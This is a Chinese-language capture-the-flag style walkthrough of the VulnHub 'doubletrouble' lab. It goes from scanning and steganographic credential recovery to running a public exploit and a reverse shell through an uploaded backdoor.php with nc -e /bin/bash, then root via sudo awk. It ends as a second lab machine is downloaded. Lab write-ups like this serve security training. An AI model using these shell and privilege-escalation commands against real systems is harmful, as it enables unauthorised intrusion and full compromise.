# 一、侦测
## 1.1 端口扫描


## 1.2 HTTP扫描



访问`secret`，发现图片`doubletrouble.jpg`，下载到本地



## 1.3 exp搜索


```zsh
cd ~/sec/vulnhub/doubletrouble_1
searchsploit -m 50944
python3 50944.py --help
```



根据`--help`，使用这个exp需要(非顶级管理员的)邮箱和密码

## 1.4 图片隐写术
```zsh
stegseek doubletrouble.jpg /usr/share/wordlists/rockyou.txt
```

结果如图

> 邮箱：otisrush@localhost.com
> 密码：otis666

# 二、攻击
## 2.1 exp利用

```ZSH
python3 50944.py -url http://192.168.203.138/ -u otisrush@localhost.com -p otis666
```





## 2.2 网站侦测


## 2.3 反弹shell（利用backdoor.php）
```zsh
# kali
nc -lvvp 7777

# 靶机
http://192.168.203.138/uploads/users/892030-backdoor.php?cmd=nc%20192.168.203.129%207777%20-e%20/bin/bash
```

```zsh
# 升级 shell界面

python3 -c 'import pty; pty.spawn("/bin/bash")'

Ctrl + Z

stty raw -echo; fg

export TERM=xterm

reset
```

## 2.4 提权



root身份可以运行`/usr/bin/awk`，而`awk`具备执行系统命令的能力，可以用来开启具有root权限的shell

```ZSH
sudo awk 'BEGIN {system("/bin/sh")}'

python3 -c 'import pty; pty.spawn("/bin/bash")'
```


找到第二个靶机镜像

# 三、靶机二

## 3.1 靶机二部署

```ZSH
# 靶机一中开启临时服务器
python3 -m http.server 8080

# kali 新终端下载镜像
wget http://192.168.203.138:8080/doubletrouble.ova
```


